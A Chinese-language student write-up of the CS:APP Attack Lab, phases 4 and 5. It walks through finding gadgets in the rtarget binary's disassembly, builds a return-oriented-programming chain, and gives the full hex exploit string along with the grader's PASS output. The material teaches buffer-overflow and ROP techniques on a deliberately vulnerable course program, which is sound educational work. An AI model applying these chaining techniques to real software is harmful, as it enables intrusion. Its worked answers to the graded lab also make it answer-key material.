刚刚差点把 gadget1 和 2 的地址搞反了，导致跑出来 segmentation fault，还疑惑是怎么回事，后来一看发现不好，哈哈哈哈，做题的时候还是要认真仔细嗷！
输入 ./hex2raw < phase4.txt | ./rtarget -q （注意不要输入成 ctarget 啦！），运行结果如下：
gwen@gwen-virtual-machine:~/Documents/report/code/15213/lab/lab3-attack-lab$ ./hex2raw < phase4.txt | ./rtarget -q | |
Cookie: 0x59b997fa | |
Type string:Touch2!: You called touch2(0x59b997fa) | |
Valid solution for level 2 with target rtarget | |
PASS: Would have posted the following: | |
user id bovik | |
course 15213-f15 | |
lab attacklab | |
result 1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00 |
# Phase 5
phase 5 的任务是让 %rdi 指向 cookie 的字符串表示并调用 touch 3 ，这个任务看起来有点类似我们在 Phase 3 中做的工作。
作者提示：
- 可使用的
gadget的范围是start_farm到end_farm - 利用 Appendix 中的表
- 复习一下课本 P83 的
movl的用法 - 官方答案使用了 8 个 gadget
在 Phase 3 中我们所做的工作是：
- 插入攻击字符串在攻击代码前
- 在返回地址处插入攻击代码的起始位置
- 在攻击代码中实现如下操作：
- 将攻击字符串的地址赋值给
%rdi - 将
touch3的返回地址压入返回地址处
- 将攻击字符串的地址赋值给
现在使用 rop 后的问题在于：攻击字符串压到哪？现在栈上是返回地址和字符串的组合。那么我们的想法是让攻击字符串放在所有 gadget 地址之后。但是具体放在之后多少呢？这要看 mov xxx, %rdi 中哪些地址的编码存在。
首先， cookie 的值是 59b997fa ，那么其字符串编码是 0x35 0x39 0x62 0x39 0x39 0x37 0x66 0x61 0x00 ( 0x00 是字符串最后的 \0 )。那么我们构建的 gadget 中应有的步骤是：
mov 地址,%rdiret
此外， touch3 的地址是 0x4018fa 。那么我们最初设计的栈空间如图：

但是我后来有点卡壳了，问题在于把字符串存在什么位置呢？如果存在那个位置，在 rtarget 汇编中能找到对应的 gadget 吗？于是我查找了一点资料 (有点耍赖了对不起对不起～)，这个资料中提到的一条信息是我没有想到的：
rtarget 相比 ctarget 的区别在于开启了栈随机化。也就是运行时字符串的地址是不确定的。在 phase 3 中我们所做的工作是刚好将其压在
test函数的返回地址下面，但是这里我们需要其相对与栈顶的地址。
因此，我们应该做的步骤是：
1. 将攻击字符串放在%rsp + offset 处
2. 让 %rdi = %rsp + offset
3. ret
那么如何计算这个地址，并且将其赋给 %rdi 呢？这个地址的计算需要在 %rsp 的基础上偏移几十个字节。地址的计算我们可以使用 lea 指令，然而加法运算如何实现呢？我们看看代码中有没有提供：
/* Add two arguments */ | |
long add_xy(long x, long y) | |
{ | |
return x+y; | |
} |
这段代码的汇编格式如下：
00000000004019d6 <add_xy>:
4019d6: 48 8d 04 37 lea (%rdi,%rsi,1),%rax
4019da: c3 retq
其把 %rdi 和 %rsi 累加到 %rax 中，那么我们要计算偏移量，需要分别把 %rsp 和偏移量放到 %rsi 和 %rdi 中。最后让 %rdi = rax 。
在 rtarget 中，与 %rsp 相关的字节有 48 89 e0 ，其编码为 movq %rsp,%rax 。和 %esp 相关的字节有 89 e0 ，其编码为 movl %esp, %eax 。包含这段编码的代码如下：
0000000000401a03 <addval_190>:
401a03: 8d 87 41 48 89 e0 lea -0x1f76b7bf(%rdi),%eax
401a09: c3 retq
0000000000401a18 <getval_345>: // 不可取，c1不是单独指令
401a18: b8 48 89 e0 c1 mov $0xc1e08948,%eax
401a1d: c3 retq
0000000000401a39 <addval_110>:
401a39: 8d 87 c8 89 e0 c3 lea -0x3c1f7638(%rdi),%eax
401a3f: c3 retq
0000000000401a47 <addval_201>: // 不可取，c7不是单独指令
401a47: 8d 87 48 89 e0 c7 lea -0x381f76b8(%rdi),%eax
401a4d: c3 retq
0000000000401a5a <setval_299>: // 不可取，91不是单独指令
401a5a: c7 07 48 89 e0 91 movl $0x91e08948,(%rdi)
401a60: c3 retq
0000000000401a83 <addval_358>:
401a83: 8d 87 08 89 e0 90 lea -0x6f1f76f8(%rdi),%eax
401a89: c3 retq
0000000000401a97 <setval_181>: // 不可取，c2不是单独指令
401a97: c7 07 48 89 e0 c2 movl $0xc2e08948,(%rdi)
401a9d: c3 retq
0000000000401aab <setval_350>:
401aab: c7 07 48 89 e0 90 movl $0x90e08948,(%rdi)
401ab1: c3 retq
那么之前的过程就变为：
1. rax = rsp(48 89 e0)
2. rsi = 偏移量
3. rdi = rax(<setval_210> 中的 48 89 c7)
4. rax = rdi + rsi（lea指令）
5. rdi = rax(<setval_210> 中的 48 89 c7)
6. ret
7. 将攻击字符串放在%rsp + offset 处
我们找一下以 %rsi 和 %rdi 为目的寄存器的指令。
以 %rdi 为目的寄存器的指令编码有 (48)* 89 (c|d|e|f)(7|f) ，在 rtarget 中可能的代码段如下：
00000000004019a0 <addval_273>: // 不可取，c3不是指令
4019a0: 8d 87 48 89 c7 c3 lea -0x3c3876b8(%rdi),%eax
4019a6: c3 retq
00000000004019ae <setval_237>: // 不可取，c7不是指令
4019ae: c7 07 48 89 c7 c7 movl $0xc7c78948,(%rdi)
4019b4: c3 retq
00000000004019c3 <setval_426>: // 是他！是他！就是他！
4019c3: c7 07 48 89 c7 90 movl $0x90c78948,(%rdi)
4019c9: c3 retq
以 %rsi/%esi 为目的寄存器的指令编码有 (48)* 89 (c|d|e|f)(6|e) 。在 rtarget 中可能的代码段如下：
00000000004019e8 <addval_113>: // 不可取，78 c9不是指令
4019e8: 8d 87 89 ce 78 c9 lea -0x36873177(%rdi),%eax
4019ee: c3 retq
0000000000401a11 <addval_436>: // 可以是他！
401a11: 8d 87 89 ce 90 90 lea -0x6f6f3177(%rdi),%eax
401a17: c3 retq
0000000000401a25 <addval_187>: // 可以是他，38 c0 是cmpb %al指令，不影响结果
401a25: 8d 87 89 ce 38 c0 lea -0x3fc73177(%rdi),%eax
401a2b: c3 retq
0000000000401a61 <addval_404>: // 不可取，92 c3不是指令
401a61: 8d 87 89 ce 92 c3 lea -0x3c6d3177(%rdi),%eax
401a67: c3 retq
这里没有 48 ，那么就只能输送到 %esi 中。这里的难点在于如何把偏移量输送到 %esi 中？这里肯定是不能直接输送了，必须通过寄存器的中转。这里只出现了 89 ce ，通过查表我们可以发现 89 ce 对应的指令是 movl %ecx, %esi 。那么我们还需要想办法把值送到 %ecx 中。那么前面的过程就变成了：
1. rax = rsp(48 89 e0)
2. ecx = 偏移量； rsi = ecx(89 ce)
3. rdi = rax(<setval_210> 中的 48 89 c7)
4. rax = rdi + rsi（lea指令）
5. rdi = rax(<setval_210> 中的 48 89 c7)
6. ret
7. 将攻击字符串放在%rsp + offset 处
我们再来探测一下目的寄存器为 %ecx 的相关指令，其格式为 (48)* 89 (c|d|e|f)(1|9) ，包含其格式的代码段为：
00000000004019f6 <getval_226>: // 不可取，48 c0不是指令
4019f6: b8 89 d1 48 c0 mov $0xc048d189,%eax
4019fb: c3 retq
0000000000401a33 <getval_159>: // 可取，38 c9 是cmpb %cl指令
401a33: b8 89 d1 38 c9 mov $0xc938d189,%eax
401a38: c3 retq
0000000000401a68 <getval_311>: // 可取，08 db 是orb %bl指令
401a68: b8 89 d1 08 db mov $0xdb08d189,%eax
401a6d: c3 retq
0000000000401a6e <setval_167>: // 不可取，91 c3 不是指令
401a6e: c7 07 89 d1 91 c3 movl $0xc391d189,(%rdi)
401a74: c3 retq
代码段中以 %ecx 为目的寄存器的代码格式为 89 d1 ，其转化为指令为 movl %edx, %ecx 。
那么前面的过程就变成了：
1. rax = rsp(48 89 e0)
2. edx = 偏移量； ecx = edx；(89 d1) rsi = ecx(89 ce)
3. rdi = rax(<setval_210> 中的 48 89 c7)
4. rax = rdi + rsi（lea指令）
5. rdi = rax(<setval_210> 中的 48 89 c7)
6. ret
7. 将攻击字符串放在%rsp + offset 处
我们再来探测一下目的寄存器为 %edx 的相关指令，其格式为 (48)* 89 (c|d|e|f)(2|a) ，包含其格式的代码段为：
00000000004019db <getval_481>: // 可以是他！
4019db: b8 5c 89 c2 90 mov $0x90c2895c,%eax
4019e0: c3 retq
0000000000401a1e <addval_479>: // 不可以是他！
401a1e: 8d 87 89 c2 00 c9 lea -0x36ff3d77(%rdi),%eax
401a24: c3 retq
0000000000401a40 <addval_487>: // 可以是他，84 c0是 testb %al
401a40: 8d 87 89 c2 84 c0 lea -0x3f7b3d77(%rdi),%eax
401a46: c3 retq
0000000000401a54 <getval_155>: // 不可以是他，c4 c9不是指令
401a54: b8 89 c2 c4 c9 mov $0xc9c4c289,%eax
401a59: c3 retq
0000000000401a8a <addval_124>: // 不可以是他，c7 37不是指令
401a8a: 8d 87 89 c2 c7 3c lea 0x3cc7c289(%rdi),%eax
401a90: c3 retq
0000000000401a9e <addval_184>: // 不可以是他，60 d2不是指令
401a9e: 8d 87 89 c2 60 d2 lea -0x2d9f3d77(%rdi),%eax
401aa4: c3 retq
代码段中以 %edx 为目的寄存器的代码格式为 89 c2 ，其转化为指令为 movl %eax, %edx 。
那么前面的过程就变成了：
1. rax = rsp(48 89 e0)
2. eax = 偏移量；edx = eax；(89 c2) ecx = edx；(89 d1) rsi = ecx(89 ce)
3. rdi = rax(<setval_210> 中的 48 89 c7)
4. rax = rdi + rsi（lea指令）
5. rdi = rax(<setval_210> 中的 48 89 c7)
6. ret
7. 将攻击字符串放在%rsp + offset 处
以 %eax (或 %rax ) 为目的寄存器的指令格式为 (48)* 89 (c|d|e|f)(0|8) ，包含其格式的代码段为：
0000000000401a03 <addval_190>:
401a03: 8d 87 41 48 89 e0 lea -0x1f76b7bf(%rdi),%eax
401a09: c3 retq
0000000000401a18 <getval_345>:
401a18: b8 48 89 e0 c1 mov $0xc1e08948,%eax
401a1d: c3 retq
0000000000401a39 <addval_110>:
401a39: 8d 87 c8 89 e0 c3 lea -0x3c1f7638(%rdi),%eax
401a3f: c3 retq
0000000000401a47 <addval_201>:
401a47: 8d 87 48 89 e0 c7 lea -0x381f76b8(%rdi),%eax
401a4d: c3 retq
0000000000401a5a <setval_299>:
401a5a: c7 07 48 89 e0 91 movl $0x91e08948,(%rdi)
401a60: c3 retq
0000000000401a83 <addval_358>:
401a83: 8d 87 08 89 e0 90 lea -0x6f1f76f8(%rdi),%eax
401a89: c3 retq
0000000000401a97 <setval_181>:
401a97: c7 07 48 89 e0 c2 movl $0xc2e08948,(%rdi)
401a9d: c3 retq
0000000000401aab <setval_350>:
401aab: c7 07 48 89 e0 90 movl $0x90e08948,(%rdi)
401ab1: c3 retq
其中以 %eax 为目的寄存器的代码格式为 89 e0 ，其主要目的为 movl %esp,%eax ，也就是我们步骤第一步中的内容。
除此以外，还有一种涉及 %rax 的指令就是 popq %rax ，其指令编码为 58 。其在代码中出现的部分包含：
00000000004019a7 <addval_219>: // 可以是他！
4019a7: 8d 87 51 73 58 90 lea -0x6fa78caf(%rdi),%eax
4019ad: c3 retq
00000000004019b5 <setval_424>: // 92不是指令，不可以是他！
4019b5: c7 07 54 c2 58 92 movl $0x9258c254,(%rdi)
4019bb: c3 retq
00000000004019ca <getval_280>: // c3不是指令，不可以是他！
4019ca: b8 29 58 90 c3 mov $0xc3905829,%eax
4019cf: c3 retq
那么我们可以采取的方式是：
1. rax = rsp(48 89 e0)
2. 偏移量存储在栈上；popq %eax；edx = eax；(89 c2) ecx = edx；(89 d1) rsi = ecx(89 ce)
3. rdi = rax(<setval_210> 中的 48 89 c7)
4. rax = rdi + rsi（lea指令）
5. rdi = rax(<setval_210> 中的 48 89 c7)
6. ret
7. 将攻击字符串放在%rsp + offset 处
但是现在问题来了， %rax 既要存储偏移量，又要存储 %rsp ，我们能否换个地方存储 %rsp 呢，其实可以把第 2 步和第 3 步换一下，让 %rax 转储到 %rdi 里去就行。最终步骤如下：
1. rax = rsp(48 89 e0)
2. rdi = rax(<setval_210> 中的 48 89 c7)
3. 偏移量存储在栈上；popq %eax；edx = eax；(89 c2) ecx = edx；(89 d1) rsi = ecx(89 ce)
4. rax = rdi + rsi（lea指令）
5. rdi = rax(<setval_210> 中的 48 89 c7)
6. ret
7. 将攻击字符串放在%rsp + offset 处
其中 gadget 的地址为：(单独的 gadget 地址见前文)
rax = rsp->401a06rdi = rax->4019c5popq %eax->4019ab- 偏移量存储在栈上
edx = eax->4019ddecx = edx->401a69rsi = ecx->401a13rax = rdi + rsi->4019d6rdi = rax->4019c5touch3地址 ->4018fa
因为在执行第一条 rax = rsp 时，已经执行了一次 ret 指令，因此此时 %rsp 在 buf + 48 处，也就是返回地址已经被弹出了一个。所以在 buf + 48 后面是 9 个地址 + 数据，因此偏移量应该是 9 * 8 = 72 ，转化为 16 进制就是 0x48 。最终的栈结构如下：

因此，phase 5 的输入为：
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
69 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
00
最终结果如下：
Cookie: 0x59b997fa | |
Type string:Touch3!: You called touch3("59b997fa") | |
Valid solution for level 3 with target rtarget | |
PASS: Would have posted the following: | |
user id bovik | |
course 15213-f15 | |
lab attacklab | |
result 1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 06 1A 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 AB 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 69 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00 |
通过！
# 总结
- phase 1 很简单，让 buffer overflow 溢出，然后覆盖返回地址即可
- phase 2 需要让
%rdi的值等于cookie的值，我们需要插入一部分自己的攻击代码，比 Phase 1 难度稍微高点 - phase 3 中我们需要插入自己的攻击字符串，然后让
ret指令返回到攻击代码开始处，通过指令将%rdi的值设置为攻击字符串的地址，并且把touch3的地址压到栈上。这里的难点在于hexmatch和strncmp中出现了push的压栈操作，并且使用了一段随机的 buffer，如果把攻击字符串放在攻击代码之前，会导致攻击字符串被破坏。因此这里的核心是把攻击字符串放在 caller 函数 (test) 的栈空间内（在返回地址下面），然后让%rdi指向这里 - phase 4 & phase 5 的难点在于将过程理清楚，并且在
rtarget中找到对应的gadget，将栈上作为gadget地址和数值的组合，巧妙地运用popq和ret和其他指令组合出我们想要的操作。 - phase 5 的核心在于首先确定
rax = rdi + rsi，并且这两个寄存器一个存储%rsp，一个存储偏移量。要将数据输入到这两个寄存器，随后不断的通过反推，找到以他们为目标地址的指令通用结构，在rtarget中查找到相关指令，然后确定其源寄存器。再来反推什么指令能将数据输送到源寄存器。打通一条通路，然后确定每个 gadget 的地址，最后串联起来就是我们想要的 gadget 列表！这个过程收获很大！
虽然做这 5 个 Phase 的过程不容易，但是总体来说受益匪浅！
# 参考资料
- CSAPP 实验之 attack lab
- CSAPP | Lab3-Attack Lab 深入解析
- csapp-attacklab 详解